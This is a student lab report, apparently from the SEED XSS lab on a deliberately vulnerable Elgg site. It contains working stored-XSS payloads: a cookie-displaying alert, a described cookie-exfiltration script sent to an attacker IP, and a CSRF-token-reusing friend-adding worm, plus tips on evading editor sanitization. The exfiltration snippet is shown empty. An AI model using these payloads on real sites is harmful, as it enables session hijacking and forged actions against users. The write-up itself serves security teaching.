










# Cross-Site Scripting Attack Lab (Elgg)

# Introduction

This report explores the exploitation of Cross-Site Scripting (XSS) vulnerabilities through a simulated attack on a modified Elgg social networking application. Elgg, a widely-used open-source platform, has been intentionally configured without XSS countermeasures for the purposes of this lab, making it vulnerable to JavaScript injection. By injecting malicious code, attackers can perform actions on behalf of other users, such as stealing session cookies or altering site content—highlighting the risks posed by XSS vulnerabilities.

## Question 1

### Task 1

In this task we want to embed JavaScript directly within the Elgg profile fields to trigger an alert window, demonstrating a basic XSS vulnerability. 

For this tasked we logged in as the user Alice.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 1: Alice's profile</figcaption>
    </figure>
</div>

We edited the user profile and added out JavaScript code to the profile to start the attack.

```js
<script>alert('XSS');</script>
```

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 2: Adding the JavaScript code to Alice's profile</figcaption>
    </figure>
</div>

Now when another user opens Alice's profile an alert window with the "XSS" message will apear.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 3: Alert window with the "XSS" message</figcaption>
    </figure>
</div>

This attack verifies that Elgg’s input fields are vulnerable to script injection.

### Task 2

The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the user’s cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task:

```js
<script>alert(document.cookie);</script>
```

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 4: Adding another line of JavaScript code to Alice's profile</figcaption>
    </figure>
</div>

And now when another user enters Alice's profile the alert message will show with that user's cookies displayed.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 5: Alert window with the user's cookies displayed</figcaption>
    </figure>
</div>

In this task only the user can see its own cookies, not the attacker.

### Task 3 

Now we want, as the attacker, to be able to see the visiting user's cookies. So we need to find a way to send the cookies of the user to the attacker.
To do this we will again change our JavaScript code to send the cookies to the attacker.

This code creates an 'img' tag with the src attribute set to a URL that includes the cookies (document.cookie) as a parameter. The browser will attempt to load this img from the attacker’s machine (10.9.0.1), and in doing so, it will send the cookies in an HTTP GET request to http://10.9.0.1:5555.

```js
<script> 
    document.write('');
</script>
```

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 6: Changed JavaScript code in Alice's profile</figcaption>
    </figure>
</div>

Now when another user enters Alice's profile, instead of receiving a message with their own cookie, they will not be notified, but their cookie will be send to the attacker.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 7: Attackers view of the the user's cookie</figcaption>
    </figure>
</div>

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 8: User's cookies</figcaption>
    </figure>
</div>

### Task 4 

In this task we want to make something more simmilar to the famous attack that Samy did to MySpace in 2005. We will write an XSS worm that adds Samy as a friend to any other user that visits Samy's profile, but this worm does not self-propagate.

To start, we used another account and with the help of "HTTP Header Live" Tool we want to find more information on the request to add a friend. 

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 9: "HTTP Header Live" tool showing the request to add a friend</figcaption>
    </figure>
</div>

This is the full first line:
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1731600303&__elgg_token=eFNYGSxhJNN5Bit9ga_7_w&__elgg_ts=1731600303&__elgg_token=eFNYGSxhJNN5Bit9ga_7_w


In the first line, among other things, its writen "friend=59", so now we know that Samy's ID is 59.
Another thing we had to do was use the first line that we had obtain in the "HTTP Header Live" Tool to undestand the order of elements in the UML and then form the actual UML.

```js
<script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts; // 1
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token; //2

    // Construct the HTTP request to add Samy as a friend.
    var friendID = "59"; // Samy's ID
    var sendurl = "http://www.seed-server.com/action/friends/add?friend=" + friendID + ts + token;

    // Create and send an AJAX request to add the friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  }
</script>
```
After adding this JavaScript code to Samy's profile, now we tested by opening Alice's profile and, without adding manually Samy as friend, we opened Samy's profile and then went to Alice's friends and we could then check that Samy was added to Alice's friend list without Alice doing so manually.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 10: Alice's friends</figcaption>
    </figure>
</div>

#### Task4: Question1

Explain the purpose of Lines 1 and 2,why are they needed?

```js
var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts; // Line 1
var token = "&__elgg_token=" + elgg.security.token.__elgg_token; // Line 2
```
Line 1 creates a string that adds a timestamp (__elgg_ts) to the URL. This timestamp is generated by the Elgg system to ensure that the request is coming from a valid user session. It prevents attackers from using the request without having an authenticated session or mimicking valid requests from other users.

Line 2 appends the security token (__elgg_token) to the URL. The token is another security feature used by Elgg to ensure that the request is legitimate. It prevents an attacker from sending arbitrary requests to perform actions like adding a friend, since the attacker would not have access to this token unless they were authenticated. 

These two lines are essential for ensuring that the HTTP request is legitimate and comes from an authenticated user. Without these, the request could be considered invalid by the server, preventing the attack from succeeding. Therefore, they are needed to bypass Elgg's CSRF protection mechanisms.

#### Task4: Question2: 

If the Elgg application only provided the Editor mode for the "About Me" field (i.e., you cannot switch to Text mode), can you still launch a successful attack?

Even with only "Editor mode" enabled for the "About Me" field, an XSS attack can still be successful, although with some limitations. While the Editor mode may implement sanitization to block certain JavaScript or HTML tags, like script, attackers can still bypass these protections. For instance, JavaScript can be injected using event-based attributes (like `onload` or `onclick`) within tags like `img` or `a`. Additionally, encoding characters as HTML entities or using non-standard JavaScript functions (e.g., `document.write()`) can sometimes bypass sanitization. Therefore, while Text mode makes injection easier, an attack is still possible in Editor mode if the sanitization is insufficient.

## Question 2

There are several types of XSS attacks (Reflected, Stored, or DOM). Which type(s) does this attack fall under and why?

The attack performed in this lab  is best classified as a Stored XSS attack. In this scenario, the malicious JavaScript is injected and stored in the "About Me" field of Samy's profile. Every time another user, like Bob, visits Samy's profile, the malicious code is executed making it a classic example of XSS. The injected script is persistently stored in the Elgg database, and it runs automatically when the page is loaded, which is characteristic of Stored XSS. 

Unlike Reflected XSS, which involves the malicious code being reflected off the server in response to a user request , this attack does not rely on tricking the victim into clicking a malicious link. 
Additionally, this attack is not an example of DOM-based XSS, as it does not depend on client-side manipulation of the page but rather on server-side storage. 
 